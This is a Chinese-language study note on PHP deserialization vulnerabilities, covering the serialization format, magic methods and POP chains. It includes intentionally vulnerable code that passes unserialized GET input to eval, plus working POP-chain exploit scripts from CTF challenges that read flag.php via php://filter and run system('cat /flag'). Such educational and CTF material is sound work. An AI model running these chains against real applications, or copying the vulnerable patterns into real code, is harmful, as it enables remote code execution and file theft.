









# 反序列化漏洞

>   **反序列化的数据本质上来说是没有危害的，用户可控数据进行反序列化是存在危害的（经典：一切输入都是有害的）**
>
>   我们想要保存一个对象到文本，序列化就提供了这样一个功能，序列化只保存了对象的数据，但是没有保存对象的代码（python序列化有点不一样）。

## php反序列化漏洞

### 1.1 php序列化基础

#### **php序列化和反序列化**

>   参考：[深度剖析PHP序列化和反序列化](https://www.cnblogs.com/youyoui/p/8610068.html)

*   在PHP中，序列化用于存储或传递 PHP 的值的过程中，同时不丢失其类型和结构(**但对对象序列化时，只保留属性值,不保留结构**)
*   serialize()将一个对象转换成一个字符串
*   unserialize()将字符串还原为原来的PHP值
    *   如果传递的字符串不可解序列化，则返回 FALSE，并产生一个`E_NOTICE`
    *   返回的是转换之后的值，可为`integer` 、`float`、`string`、`array`或`object`
    *   若被反序列化的变量是一个对象，在成功重新构造对象之后，PHP会自动地试图去调用`__wakeup()`等成员函数（魔法方法）

#### **php序列化格式**

>   参考[PHP 序列化（serialize）格式详解-php手册-PHP中文网](https://www.php.cn/php-notebook-239422.html)  原作者andot的文章已经消失  
>
>   **鉴于原文时间过久，该文发现的php问题有些已经修复了**，在下文中测试了
>
>   不需要记住，到时候写好类，新建对象，传好数据，直接序列化然后输出就行

PHP 对不同类型的数据用不同的字母进行标示

- ```
    a - array 
    b - boolean
    d - double
    i - integer
    o - common object   //这个标示在 PHP3 中被引入用来序列化对象，但是到了 PHP4 以后就被 O 取代了（文章没详细说明，想了解的可以做做实验）
    r - reference   //对象引用
    s - string
    C - custom object    //PHP5 中引入的，它表示自定义的对象序列化方式，
    O - class   //只实现了 PHP4 中对象序列化格式，而没有提供对 PHP 5 中扩展的对象序列化格式的支持
    N - null
    R - pointer reference   //指针引用
    U - unicode string   //PHP6 中才引入的，它表示 Unicode 编码的字符串
    ```

boolean 型数据的序列化、double 型数据的序列化、integer 型数据的序列化、string 型数据的序列化、NULL 的序列化(**b,d,i,s,N**)

- ```
    b:x;
    其中x为 0 或 1，当 boolean 型数据为 false 时， 为 0，否则为 1。
    
    
    d:x;
    其中x为一个浮点数，其范围与 PHP 中浮点数的范围一样。可以表示成整数形式、浮点数形式和科学技术法形式。如果序列化后的数字范围超过 PHP 能表示的最大值，则反序列化时返回无穷大（INF），如果序列化后的数字范围超过 PHP 所能表示的最小精度，则反序列化时返回 0。
    
    i:x;
    其中x为一个整型数，范围为：-2147483648 到 2147483647。数字前可以有正负号，如果被序列化的数字超过这个范围，则会被序列化为浮点数类型而不是整型。如果序列化后的数字超过这个范围（PHP 本身序列化时不会发生这个问题），则反序列化时，将不会返回期望的数值。
    
    
    s:x:"y";
    其中x是s的长度，x是非负整数，数字前可以带有正号（+）。y为字符串值，这里的每个字符都是单字节字符，其范围与 ASCII 码的 0 - 255 的字符相对应。每个字符都表示原字符含义，没有转义字符， 两边的引号（""）是必须的，但不计算在x当中。这里的s相当于一个字节流，而x是这个字节流的字节个数。
    
    
    N;
    在 PHP 中，NULL 被序列化为N;
    ```

* 数组的序列化(**a**)

    ```php
    <?php
    $data=[1,'HTML',1.01];
    echo serialize($data);
    ?>
    
    a:3:{i:0;i:1;i:1;s:4:"HTML";i:2;d:1.01;}
    ```

    `a:<n>:{<key 1><value 1><key 2><value 2>...<key n><value n>}`
    其中` <n> `表示数组元素的个数，`<key 1>、<key 2>……<key n> `表示数组下标，`<value 1>、<value 2>……<value n>` 表示与下标相对应的数组元素的值

* **对象的的序列化(O)**

    ```PHP
    <?php
    class A {
        public $a = 1;
        protected $b = 2;
        private $c = 3;
    }
    $data = new A();
    echo serialize($data);
    ?>
    
    O:1:"A":3:{s:1:"a";i:1;s:4:"*b";i:2;s:4:"Ac";i:3;}
    ```

    

    *   `O:<length>:"<class name>":<n>:{<field name 1><field value 1><field name 2><field value 2>...<field name n><field value n>}`  

        其中 `<length>` 表示对象的类名 `<class name>` 的字符串长度。`<n>` 表示对象中的字段1个数。这些字段包括在对象所在类及其祖先类中用 var、public、protected 和 private 声明的字段，但是不包括 static 和 const 声明的静态字段。也就是说只有实例（instance）字段。

    *   var 和 public 声明的字段都是公共字段，因此它们的字段名的序列化格式是相同的。公共字段的字段名按照声明时的字段名进行序列化，但序列化后的字段名中不包括声明时的变量前缀符号 $。

    *   protected 声明的字段为保护字段，在所声明的类和该类的子类中可见，但在该类的对象实例中不可见。因此保护字段的字段名在序列化时，字段名前面会加上`0*0`的前缀。这里的 0 (\x00,占一个字节)表示 ASCII 码为 0 (的字符，而不是 0 组合。

    *   private 声明的字段为私有字段，只在所声明的类中可见，在该类的子类和该类的对象实例中均不可见。因此私有字段的字段名在序列化时，字段名前面会加上

        `0<declared class name>0`的前缀。这里 `<declared class name>` 表示的是声明该私有字段的类的类名，而不是被序列化的对象的类名。因为声明该私有字段的类不一定是被序列化的对象的类，而有可能是它的祖先类。

    *   字段名被作为字符串序列化时，字符串值中包括根据其可见性所加的前缀。字符串长度也包括所加前缀的长度。其中 0 字符也是计算长度的。

* 嵌套复合类型的序列化(**r,R**)

    1.   对象引用(r)和指针引用(R)

         *   格式解析
           
             ```php
             <?php
             class ClassA {
                 var $int;
                 var $str;
                 var $bool;
                 var $obj;
                 var $pr;
             }
             $a = new ClassA();
             $a->int = 1;
             $a->str = "Hello";
             $a->bool = false;
             $a->obj = $a;
             $a->pr = &$a->str;
             echo serialize($a);
             ?>
             
             
             O:6:"ClassA":5:{s:3:"int";i:1;s:3:"str";s:5:"Hello";s:4:"bool";b:0;s:3:"obj";r:1;s:2:"pr";R:3;}
             ```
             
             `r:<number>; `  
             `R:<number>; `        

             `<number>`是所引用的对象在序列化串中第一次出现的位置  

             在上面的例子中,首先序列化的对象是 ClassA 的一个对象，那么给它编号为 1，接下来要序列化的是这个对象的几个成员，第一个被序列化的成员是 int 字段，那它的编号就为 2，接下来被序列化的成员是 str，那它的编号就是 3，依此类推，到了 obj 成员时，它发现该成员已经被序列化了，并且编号为 1，因此它被序列化时，就被序列化成了 r:1; ，在接下来被序列化的是 pr 成员，它发现该成员实际上是指向 str 成员的一个引用，而 str 成员的编号为 3，因此，pr 就被序列化为 R:3; 了  

             实际上，PHP 在序列化时，首先建立一个空表，然后每个被序列化的对象在被序列化之前，都需要先计算该对象的 Hash 值，然后判断该 Hash 值是否已经出现在该表中了，如果没有出现，就把该 Hash 值添加到这个表的最后，返回添加成功。如果出现了，则返回添加失败，但是在返回失败前先判断该对象是否是一个引用（用 & 符号定义的引用），如果不是则也把 Hash 值添加到表后（尽管返回的是添加失败）。如果返回失败，则同时返回上一次出现的位置。  

             在添加 Hash 值到表中之后，如果添加失败，则判断添加的是一个引用还是一个对象，如果是引用，则返回 R 标示，如果是对象，则返回 r 标示。因为失败时，会同时返回上一次出现的位置，因此，R 和 r 标示后面的数字，就是这个位置

         *   对其中对象引用(r)和指针引用(R)的字段值修改时，会发现，对象引用是修改对象的字段的值，而指针引用是对对象本身进行修改

             ```php
             <?php
             class SampleClass {
                 var $value;
             }
             $a = new SampleClass();
             $a->value = $a;
             $b = new SampleClass();
             $b->value = &$b;
             $a->value = 1;
             $b->value = 1;
             echo serialize($a);
             echo "|||";
             echo serialize($b);
             ?>
             
             O:11:"SampleClass":1:{s:5:"value";i:1;}|||i:1;
             ```

         **注**：原文中有数组为对象引用传递与序列化的对象引用出现问题，但我在实验时发现并无问题；  

         测试后的猜想(还是要学内核的呀，只能猜)

         ```
         <?php
         $a = array();
         $a[1] = 1;
         $a["value"] = $a;
         echo serialize($a);
         echo "|||";
         echo serialize($a["value"]);
         ?>
         
         结果
         a:2:{i:1;i:1;s:5:"value";a:1:{i:1;i:1;}}|||a:1:{i:1;i:1;}
         ---
         array (size=2)
           1 => int 1
           'value' => 
             array (size=1)
               1 => int 1
         array (size=1)
           1 => int 1
         
         ```

         如上，在php高版本后，对对象引用的再次引用会默认将第一次相同的引用变成NULL来解决原文中的问题(鉴于php底层没看，**存疑**)

    2.   对象引用的反序列化

         原文中的`反序列化的字符串不是 PHP 的 serialize() 本身生成的，而是人为构造或者用其它语言生成的，即使对象引用指向的不是一个对象，它也能正确地按照对象引用所指向的数据进行反序列化。`经过测试,不能正确进行反序列化，而是返回bool值false

         ```php
         <?php
         class StrClass {
             var $a1;
             var $b1;
         }
         $d = 'O:8:"StrClass":2:{s:2:"a1";s:5:"Hello";s:2:"b1";r:2;}';
         $e = unserialize($d);
         var_dump($e);
         ?>
             
             
         boolean false
         ```

* 自定义对象序列化(**C**)

    1.   PHP4中自定义对象序列化  

         PHP 4 中提供了 __sleep 和 __wakeup 这两个方法来自定义对象的序列化。不过这两个函数并不改变对象序列化的格式，影响的仅仅是被序列化字段的个数。

    2.   PHP 5 中自定义对象序列化  
         PHP 5 中增加了接口(interface)功能。PHP 5 本身提供了一个 Serializable 接口，如果用户在自己定义的类中实现了这个接口，那么在该类的对象序列化时，就会被按照用户实现的方式去进行序列化，并且序列化后的标示不再是 O，而改为 C。  

         C 标示的格式如下：
         `C:<name length>:"<class name>":<data length>:{<data>}`  

          `<name length> `表示类名 `<class name>` 的长度，`<data length> `表示自定义序列化数据 `<data> `的长度，而自定义的序列化数据 `<data>` 是完全的用户自己定义的格式，与 PHP 序列化格式可以完全无关，这部分数据由用户自己实现的序列化和反序列化接口方法来管理。  

         Serializable 接口中定义了 2 个方法，serialize() 和 unserialize($data)，这两个方法不会被直接调用，而是在调用 PHP 序列化函数时，被自动调用。其中 serialize 函数没有参数，它的返回值就是 `<data>` 的内容。而 unserialize($data) 有一个参数 $data，这个参数的值就是 `<data> `的内容。这样大家应该就明白了，实际上接口中 serialize 方法就是让用户来自己序列化对象中的内容，序列化后的内容格式，PHP 并不关心，PHP 只负责把它充填到 `<data>` 中，等到反序列化时，PHP 只负责取出这部分内容，然后传给用户实现的 unserialize($data) 接口方法，让用户自己去反序列化这部分内容。

         ```php
         class MyClass implements Serializable
         {
             public $member;
         
             function MyClass()
             {
                 $this->member = 'member value';
             }
         
             public function serialize()
             {
                 return wddx_serialize_value($this->member);
             }
         
             public function unserialize($data)
             {
                 $this->member = wddx_deserialize($data);
             }
         }
         $a = new MyClass();
         echo serialize($a);
         echo "\n";
         print_r(unserialize(serialize($a)));
         
         
         源代码：
         C:7:"MyClass":90:{<wddxPacket version='1.0'><header/><data><string>member value</string></data></wddxPacket>}
         MyClass Object
         (
             [member] => member value
         )
         ```

* Unicode 字符串的序列化(**U**)

    HP 6 中对 Unicode 字符串的序列化格式如下：  
    `U:<length>:"<unicode string>";`  

    *   这里 `<length>` 是指原 Unicode String 的长度，而不是 `<unicode string> `的长度，因为` <unicode string>` 是经过编码以后的字节流了。  

        `<length> `指的就是字符单位数，而不是字符数  

        Unicode String 中采用的是 UTF16 编码，这种编码方式使用 16 位来表示一个字符的，但是并不是所有的都是可以用 16 位表示的，因此有些字符需要两个 16 位来表示一个字符。在 UTF16 编码中，16 位字符算作一个字符单位。Unicode String 中字符数并不总是等于字符单位数

    *   `<unicode string>`的编码规则  

        对于编码小于 128 的字符（但不包括 \），按照单个字节写入，对于大于 128 的字符和 \ 字符，则转化为 16 进制编码的字符串，以 \ 作为开头，后面四个字节分别是这个字符单位的 16 进制编码，顺序按照由高位到低位排列，也就是第 16-13 位所对应的16进制数字字符（abcdef 这几个字母是小写）作为第一个字节，第 12-9 位作为第二个字节，第 8-5 位作为第三个字节，最后的第 4-1 位作为第四个字节。

#### 一个简单的反序列化漏洞

> php 的序列化漏洞就是我们修改的数据在反序列化的过程中会被传入到危险函数中，
>
> 反序列化过程会执行`__wakeup()`和`__destruct()`函数，因此最理想的情况就是一些漏洞/危害代码在`__wakeup()` 或`__destruct()`中，比如命令执行的函数，或者文件上传的函数。

存在漏洞的代码：

```php
<?php
class test{
   private $flag;
   function __destruct(){
   eval($this->flag);
   }
};
$get = $_GET["test"];
echo("$get");
$object = unserialize($get);
?>
```

如果直接输出到文件
*   `O:4:"test":1:{s:10:"testflag";s:10:"phpinfo();";}`    如果是数字的变量，`i:100`不用加长度      
*   `O:<class_name_length>:"<class_name>":<number_of_properties>:{<properties>      以分号间隔}`
*   写在这里面的数据不能用额外的空格来分割。而且最后也要用`；`结尾

-   对不同类型的变量，会用不同的形式，详细见上文的对象序列化(**php7版本不验证变量的修饰符，所以我们可以直接把private，protect改成public就行**)


- 利用poc(输出成字符，然后对于\x00，转换成%00)

    ```php
    <?php
    class test{
        private $flag="phpinfo();";
    	function __destruct(){
    		eval($this->flag);
    		}
    };
    $object=new test();
    # $object->test="phpinfo();";
    $data=serialize($object);  #返回的是字符串
    file_put_contents('serialize.txt',$data);
    $strlen = strlen($data);
    $a=urlencode($data); #编码特殊字符
    echo($a);
    ?>
    ```

-   **对于私有变量，我们写poc的时候，可以改变原有类，直接对私有变量赋初值。**
-   对于保护和public变量即可以赋初，也可以new对象之后，`->`赋值。

- php一些危险函数：

    ```
    • 命令执行：
        exec()
        passthru()
        popen()
        system()
    • 文件操作：
        file_put_contents()
        file_get_contents()
        unlink()
    ```

### 1.2 反序列化中常见的魔术方法


>   魔术方法是一种特殊的方法，当对对象执行某些操作时会覆盖 PHP 的默认操作。
>
>   参考：
>
>   [PHP字符串格式化特点和漏洞利用点](https://www.anquanke.com/post/id/170850#h2-0)
>
>   [【技术分享】PHP反序列化漏洞 - 安全客，安全资讯平台](https://www.anquanke.com/post/id/86452)
>
>   [风炫安全Web安全学习第三十九节课 反序列化漏洞基础知识 – 风炫的博客](https://blog.evalshell.com/2020/12/风炫安全web安全学习第三十九节课-反序列化漏洞基/)

*   `__wakeup()`  //执行unserialize()时，先会调用这个函数

*   `__destruct()`  //对象被销毁时触发

*   `__sleep()`   //执行serialize()时，先会调用这个函数

    serialize()检查您的类是否具有魔术名sleep()的函数。  

    如果是这样，该函数在任何序列化之前执行。它可以清理对象，并且应该返回一个数组，其中应该被序列化的对象的所有变量的名称。  

    如果该方法不返回任何内容，则将NULL序列化并发出E_NOTICE。  sleep()的预期用途是提交挂起的数据或执行类似的清理任务。此外，如果您有非常大的对象，不需要完全保存，该功能将非常有用。

*   `__construct()`：
  
    *   一次unserialize()中并不会直接调用的魔术函数__construct()等，可以利用pop，有时候反序列化一个对象时,由它调用的__wakeup()中又去调用了其他的对象，这个对象就会调用`__construct()`，由此可以溯源而上，利用一次次的“gadget”找到漏洞点。

* `__call(),__ callStatic()`：方法重载的两个函数

    *   `__call()`  //在**对象上下文**中调用**不可访问的方法**时触发，就是调用一个对象普通函数时候，对象并没有这个函数，就会去调用对象的`__call()` 函数了。

    *   `__callStatic()`  //在**静态上下文**中调用**不可访问的方法**时触发

* `__get()`  //读取不可访问（protected 或 private）或不存在的属性的值时，会调用该函数

* `__set()`  //在给不可访问（protected 或 private）或不存在的属性赋值时,会调用该函数

* `__isset()`  //当对不可访问（protected 或 private）或不存在的属性调用`isset()`或`empty()`[^1]触发

    [^1]:isset — 检测变量是否已声明并且其值不为 null;empty — 检查一个变量是否为空

* `__unset()`  //当对不可访问（protected 或 private）或不存在的属性调用unset()[^2]时触发

    [^2]:**unset()** 销毁指定的变量;如果在函数中 **unset()**      一个全局变量，则只是局部变量被销毁，而在调用环境中的变量将保持调用     **unset()** 之前一样的值

* `__toString()`  //**把类当作字符串使用时触发**

    - 字符串操作

        -   对象经过php字符串函数时，都会执行`__toString`方法,

        -   `echo ($obj) / print($obj) `打印时会触发

        -   字符串连接对象时候 // `$obj=$obj."123"`

        -   格式化字符串时// 在PHP中存在多个字符串格式化函数，分别是`printf()`、`sprintf()`、`vsprintf()`。

        -   与字符串进行==比较时（PHP进行==比较的时候会转换参数类型）

        -   格式化SQL语句，绑定参数时

        -   将反序列化后的对象加入到数组中，并不会触发toString方法。但是在in_array()方法中，会遍历数组查找是否有对应的字符串，这时候对象的toString方法会被调用
            -   `in_array($obj,["123"]);`

            -   

        -   从in_array()方法中，我们又有了拓展性的想法。我们都知道，在php底层，类似于in_array()这类函数，都属于先执行，之后返回判断结果。
        -   反序列化后的对象带入class_exists()方法中，同样会造成__toString的执行
            -   通过class_exists可能触发的危险操作，继续向下想一下，是否在对象处理过程中也有可能存在漏洞呢？

            -   还记的去年爆出了一个[PHP GC算法和反序列化机制释放后重用漏洞](https://bugs.php.net/bug.php?id=72433)，是垃圾回收机制本身所出现的问题，在释放与重用的过程中存在的问题。
            -   顺着这个思路，大家可以继续在对象创建、对象执行、对象销毁方面进行深入的研究。

        -   ......

    - 魔术函数的优先级可能造成的变量覆盖：

        - 当反序列化时，`__wakeup`的优先级>`__toString`>`__destruct`

        - ```php
            //测试demo
            <?php
            class test{
             public $varr1="abc";
             public $varr2="123";
             public function echoP(){
              echo $this->varr1."<br>";
             }
            
             public function __construct(){
              echo "__construct\n";
             }
            
             public function __destruct(){
              echo "__destruct\n";
             }
            
             public function __toString(){
              return "__toString\n";
             }
            
             public function __sleep(){
              echo "__sleep\n";
              return array('varr1','varr2');
             }
            
             public function __wakeup(){
              echo "__wakeup\n";
             }
            
            }
            $obj = new test();  //实例化对象，调用__construct()方法，输出__construct
            // $obj->echoP();   //调用echoP()方法，输出"abc"
            // echo $obj;    //obj对象被当做字符串输出，调用__toString()方法，输出__toString
            
            $s =serialize($obj);  //obj对象被序列化，调用__sleep()方法，输出__sleep
            
            echo unserialize($s);  //s首先会被反序列化，会调用__wake()方法，被反序列化出来的对象又被当做字符串，就会调用_toString()方法。
            //echo $s;  // O:4:"test":2:{s:5:"varr1";s:3:"abc";s:5:"varr2";s:3:"123";}
            //echo unserialize('O:4:"test":2:{s:5:"varr1";s:3:"abc";s:5:"varr2";s:3:"123";}');//直接反序列化，看优先级
            
            // 脚本结束又会调用__destruct()方法，输出__destruct
            ?>
            ```

        - 

* `__invoke()` //当尝试以调用函数的方式调用一个对象时，该方法会被自动调用


### 1.3 POP链与php反序列化

#### 1.3.1 POP链的构造

*   **pop的基本概念**
    *   POP（Property Oriented Programming）：面向属性编程；可以与pwn里面的ROP类比，POP链起于一些小的“组件”，这些小“组件”可以调用其他的“组件”。在PHP中，“组件”就是这些魔术方法（__wakeup()或__destruct）。

    *   POP链（POP CHAIN）：把魔术方法作为入口，然后在魔术方法中调用其他函数，通过寻找一系列函数，最后执行恶意代码，就构成了POP  CHAIN 。

    *   **当unserialize()传入的参数可控，便可以通过反序列化漏洞控制反序列化的类的属性，从而执行POP  CHAIN，达到利用特定漏洞的效果。**

    *   在构造POP链时，攻击者可以控制流程中的所有形如**this->xxx**的变量和相关函数
    
*   **简单举例**

    [MRCTF2020_Ezpop](https://buuoj.cn/challenges#[MRCTF2020]Ezpop)

    可以先自己写写，再来看思路

    ```php
    //flag在flag.php
    <?php
    
    class Modifier {
        protected  $var;
        public function append($value){
            include($value);   //通读一遍，发现该处存在文件包含
        }
        public function __invoke(){
            $this->append($this->var);
        }
    }
    
    class Show{
        public $source;
        public $str;
        public function __construct($file='index.php'){
            $this->source = $file;
            echo 'Welcome to '.$this->source."<br>";  //存在字符串拼接，可以调用魔法方法__toString()
        }
        public function __toString(){
            return $this->str->source; //存在可控变量，访问类的成员，可以调用魔法方法__get()
        }
    
        public function __wakeup(){
            if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
                echo "hacker";
                $this->source = "index.php";
            }
        }
    }
    
    class Test{
        public $p;
        public function __construct(){
            $this->p = array();
        }
    
        public function __get($key){
            $function = $this->p;
            return $function();  //存在可控变量的函数调用，可以调用魔法方法__invoke()
        }
    }
    ```

    **利用思路**(逆向分析)

    通读完一遍，我们需要利用Modifier类中append方法利用文件包含来获取flag，回溯到invoke，然后回溯到Test类的get方法，再回溯到Show类的toString方法，最后回溯到Show类的构造方法

    pop链的构建

    ```php
    <?php
    
    class Modifier {
        protected  $var="php://filter/read=convert.base64-encode/resource=flag.php";
        }
    }
    
    class Show{
        public function __construct($file='index.php'){
            $this->str = new Test();
        }
    }
    
    class Test{
        public $p;
        public function __construct(){
            $this->p = new Modifier();
        }
    }
    $a = new Show();
    $a->source= new Show();
    $a=serialize($a);
    echo urlencode($a);
    ?>
    ```

#### 1.3.2 调用类方法Trick

*   **数组调用类方法**

    **可变函数**

    >   参考：[PHP: 可变函数 - Manual](https://www.php.net/manual/zh/functions.variable-functions.php)

    PHP 支持可变函数的概念。这意味着如果一个变量名后有圆括号，PHP    将寻找与变量的值同名的函数，并且尝试执行它。    

    举个例子

    ```php
    class b {
        public function test() {
            ($this->b)();  //可变函数调用
        }
    }
    ```

    **可变函数有有两种调用，分别为可变方法调用和可变函数调用，这里只讲可变方法调用**。其他的看[PHP: 可变函数 - Manual](https://www.php.net/manual/zh/functions.variable-functions.php)中的例子  

    在这里就有一个数组调用类中的方法

    ```php
    <?php
    class Foo
    {
        static function bar()
        {
            echo "bar\n";
        }
        function baz()
        {
            echo "baz\n";
        }
    }
    $func = array("Foo", "bar");
    ["Foo","bar"]();// 与$func()同样，打印 "bar"
    $func(); // 打印 "bar"
    $func = array(new Foo, "baz");
    [new Foo,"baz"]();// 与$func()同样，打印 "baz"
    $func(); // 打印 "baz"
    $func = "Foo::bar";
    Foo::bar();// 与$func()同样，打印 "bar"
    $func(); // 打印 "bar"
    ?>
    ```

    上面这个例子就可以直观看出数组如何调用类方法的

    来，写两题

    *   2021赣网杯web的easypop的题，wp就不写了，相信自己，可以写出来的

        ```php
        <?php
        highlight_file(__FILE__);
        class func
        {
                public $mod1;
                public $mod2;
                public $key;
                public function __destruct()
                {        
                        unserialize($this->key)();
                        $this->mod2 = "welcome ".$this->mod1;           
                } 
        }
        
        class GetFlag
        {        public $code;
                 public $action;
                public function get_flag(){
                    $a=$this->action;
                    $a('', $this->code);
                }
        }
        unserialize($_GET[0]);
        ?>
        ```

    *   2021 极客大挑战 easypop

        ```php
        <?php
        class a {
            public function __destruct()
            {
                $this->test->test();
            }
        }
        
        abstract class b {
            private $b = 1;
            abstract protected function eval();
            public function test() {
                ($this->b)();
            }
        }
        
        class c extends b {
            private $call;
            protected $value;
            protected function eval() {
                if (is_array($this->value)) {
                    ($this->call)($this->value);
                } else {
                    die("you can't do this :(");
                }
            }
        }
        
        class d {
            public $value;
            public function eval($call) {
                $call($this->value);
            }
        }
        
        if (isset($_GET['data'])) {
            unserialize(base64_decode($_GET['data']));
        } else {
            highlight_file(__FILE__);
        } 
        ```

        分析：

        先通读一遍，发现`$call($this->value);`显然这个可以执行命令，关键是如何调用到该方法  

        再次又发现a类中的`__destruct`,这是可以触发到的方法，其中有`$this->test->test();`;a中的test变量可控，找到test()方法在抽象类b中，但b无法实例化；  

        又发现c是b的子类，继承b的方法；于是可以调用c中的test()方法；但`($this->b)();`只能执行无参数的函数如phpinfo;于是看到c类中的`eval()`方法,我们可以利用数组调用，调用到该方法`$b=[$this, 'eval']`  

        这里`eval()`有个数组判断，于是继续使用数组调用`$this->value = [new d('cat /flag'), 'eval']`  

        到了最后一步的绕圈子了，

        ```php
        ($this->call)($this->value);
        class d {
            public $value_1;
            public function __construct($command)//方便传参
            {
                $this->value_1 = $command;
            }
            public function eval($call) {
                $call($this->value);
            }
        }
        //显然先是($this->call_1)()来完成数组调用，$this->value_1作为参数；调用到d中的eval()方法；
        //然后又是eval($call)中的$call参数，来进行数组调用$call($this->value);即$this->value_1()调用
        //于是最后是调用d中的  $this->value($value_1) 作为可变函数
        构造$this->call = [new d('system'), 'eval'];
           $this->value = [new d('cat /flag'), 'eval'];
        ```

        网上的wp

        ```php
        <?php
        
        class a
        {
            public $test;
        }
        
        abstract class b
        {
            private $b;
        
            public function __construct()
            {
                $this->b = [$this, 'eval'];
            }
        }
        
        class c extends b
        {
            private $call;
            protected $value;
        
            public function __construct()
            {
                parent::__construct();
                $this->call = [new d('system'), 'eval'];
                $this->value = [new d('cat /flag'), 'eval'];
            }
        }
        
        class d
        {
            public $value;
        
            public function __construct($command)
            {
                $this->value = $command;
            }
        
            public function eval($call)
            {
                $call($this->value);
            }
        }
        
        $a = new a();
        $a->test = new c();
        echo serialize($a);
        print("\r\n\r\n");
        echo base64_encode(serialize($a));
        ```

        

        

    

### 1.4  php原生类与php反序列化

